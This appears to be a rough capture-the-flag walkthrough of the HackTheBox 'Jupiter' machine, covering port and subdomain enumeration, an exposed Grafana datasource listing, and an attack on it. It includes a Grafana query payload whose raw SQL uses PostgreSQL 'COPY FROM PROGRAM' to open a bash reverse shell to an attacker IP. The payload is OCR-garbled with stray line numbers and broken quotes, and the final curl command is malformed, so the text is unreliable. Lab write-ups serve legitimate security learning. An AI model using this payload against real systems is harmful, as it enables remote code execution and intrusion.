


PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http




it shows forbidden pages so that means theere is a way to be authenticated

/img                  (Status: 301) [Size: 178] [--> http://jupiter.htb/img/]
/css                  (Status: 301) [Size: 178] [--> http://jupiter.htb/css/]
/js                   (Status: 301) [Size: 178] [--> http://jupiter.htb/js/]
/fonts                (Status: 301) [Size: 178] [--> http://jupiter.htb/fonts/]
/Source               (Status: 301) [Size: 178] [--> http://jupiter.htb/Source/]
/sass                 (Status: 301) [Size: 178] [--> http://jupiter.htb/sass/]

got a subdomain

$ gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u jupiter.htb -t 50 --append-domain
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://jupiter.htb
[+] Method:          GET
[+] Threads:         50
[+] Wordlist:        /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.5
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
2023/07/19 06:23:34 Starting gobuster in VHOST enumeration mode
===============================================================
Found: kiosk.jupiter.htb Status: 200 [Size: 34390]
Progress: 4989 / 4990 (99.98%)
===============================================================
2023/07/19 06:24:08 Finished

we reach a kiosk place



At http://kiosk.jupiter.htb/api/datasources

```
0	
id	1
uid	"YItSLg-Vz"
orgId	1
name	"PostgreSQL"
type	"postgres"
typeName	"PostgreSQL"
typeLogoUrl	"public/app/plugins/datasource/postgres/img/postgresql_logo.svg"
access	"proxy"
url	"localhost:5432"
user	"grafana_viewer"
database	""
basicAuth	false
isDefault	true
jsonData	
database	"moon_namesdb"
sslmode	"disable"
readOnly	false
```


{
 "queries":[
  {
   "refId":"A",
   "datasource" : {

18 "uidt:"YItSLg-vz",

19 "type’ :"postgres’

20 1,

21 "rawsql" : "CREATE TABLE cmd_exec(cnd_output text); COPY cmd_exec FROM PROGRAM 'bash -c \'bash -i >& /dev/tcp/10.10.14.69/4444 O>E1\"'",
2 "format? : "table,

2 "datasourceld

21 "maxDataPoints" :60000,

= vintervalMs* : 940]

2}

27,

28 “range":{

25 "from':"2023-06-07T19:30:00.0002"
30 "to':"2023-06-07T0 0.0002",
31 vraws{

32 “from: now- 6h" ,

33 "to": "now"

3}

3 1,

36 fromrit,

37 tori

|}

```
curl --location 'http://kiosk.jupiter.htb/api/ds/query' --header 'Content-Type: application/json' --data '{"queries": "http://127.0.0.1:80/login", "proxy_response": true, "insecure_tls": false, "expand_path": true, "capacity": 250}
```